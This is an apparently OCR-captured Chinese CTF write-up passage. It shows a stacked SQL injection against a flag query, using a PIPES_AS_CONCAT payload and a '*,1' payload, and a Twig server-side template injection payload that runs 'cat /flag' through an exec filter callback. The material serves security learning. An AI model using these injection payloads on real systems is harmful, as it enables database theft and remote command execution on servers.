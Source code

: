 堆叠注入

### 操作：

源码：

```
select $_GET['query'] || flag from flag 
```

解法一：

```
1;set sql_mode=PIPES_AS_CONCAT;select 1 
```

相当于：select 1,flag from Flag

解法二：

```
*,1 
```

相当于select *,1||flag from Flag 取得全部数据

## BJDCTF-2020-web-cookie is so subtle!

![在这里插入图片描述](img/7381e5e2fd045eb0a6df440bac7daca5.png)

利用这个方法来判断模板注入的哪个模板，然后返回值为49所以是Twig，如果是7777777则是Jinja2

然后搜索一下twig的模板注入

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}} 
```